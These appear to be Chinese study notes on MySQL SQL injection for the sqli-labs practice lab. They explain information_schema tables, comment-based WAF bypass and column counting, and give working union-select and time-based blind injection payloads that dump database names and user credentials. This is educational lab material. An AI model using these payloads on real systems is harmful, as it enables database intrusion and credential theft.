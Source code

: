==在schemata表中，schema\_name字段用来存储数据库名==。

==在tables表中，有table\_schema(数据库名)，table\_name(表名)==

==在columns表中，有table\_schema(数据库名)，table\_name(表名)，column\_name(字段名) by\_name(字段名)==

2.MySQL中常用的函数有：-
user():查看当前的MySQL登录用户-
database()：查看当前使用的数据库名-
version():查看当前的MySQL版本

3.注释符：

## 

–空格(不能省，但是可以用 + 来代替)，-
内联注释：/\* \*/ 只有MySQL可以识别，常用来绕过waf

4.GROUP\_CONCAT：-
是一个函数，在连接查询的时候，能让查出的这字段的多个数，按字符拼接的方式存放在一起。(作为一行来显示，相当于使用了limit)

使用方法：select　　group\_concat( \[distinct\] 要连接的字段 \[order by 排序字段 asc/desc \] \[separator ‘分隔符’\] ) from 查询的表

concat()函数-
功能：将多个字符串连接成一个字符串。

语法：concat(str1, str2,…)-
返回结果为连接参数产生的字符串，如果有任何一个参数为null，则返回值为null。-
5.使用order by 来猜测字段数。

## 在进行时间盲注时，会用到的一些函数：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216153007889.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1NTg0MTU5%2Csize_16%2Ccolor_FFFFFF%2Ct_70)if(判断条件,1,2)如果条件时对的，那么就会执行1，否则执行二。-
if(ascii(substr(database(),1,1))>100,1,sleep(6))–+

## less-1

    0' union select 1,group_concat(schema_name) from information_schema.schemata,3--+(要放在第三个位置，即password)
    
    schema_name from information_schema.schemata limit 0,1（在union select查询中括号不能乱用，只能在需要使用函数的时候才能用）
    eg：
    schema_name from information_schema.schemata limit 0,1(这是正确的语句)
    但是用括号包裹起来后:(schema_name from information_schema.schemata limit 0,1)这句话就错了。
    正确的括号使用方法：
    union select 1,2,group_concat(concat_ws('~',username,password)) from security.users--+
    ('~':分隔符)
    
        

请求方式 注入类型 拼接方式-
GET 联合、报错、布尔盲注、延时盲注 id=’$id’-
报错解析：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201212144602177.png)-
其中/\\被’ ‘括起来，而最外面的’ ’ 是报错信息自动添加的。
